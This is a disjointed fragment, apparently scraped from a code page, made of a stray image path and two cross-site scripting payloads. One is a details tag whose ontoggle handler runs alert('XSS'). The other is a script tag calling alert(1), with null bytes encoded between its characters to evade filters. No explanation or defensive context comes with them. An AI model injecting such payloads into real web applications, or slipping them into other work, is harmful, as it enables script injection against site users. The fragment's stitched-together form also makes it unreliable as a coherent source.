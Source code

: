 <details ontoggle=a=alert,a(`XSS`)>

<%00s%00c%00r%00i%00p%00t%00>%00a%00l%00e%00r%00t%00(%001%00)%00;%00<%00/%00s%00c%00r%00i%00p%00t%00>

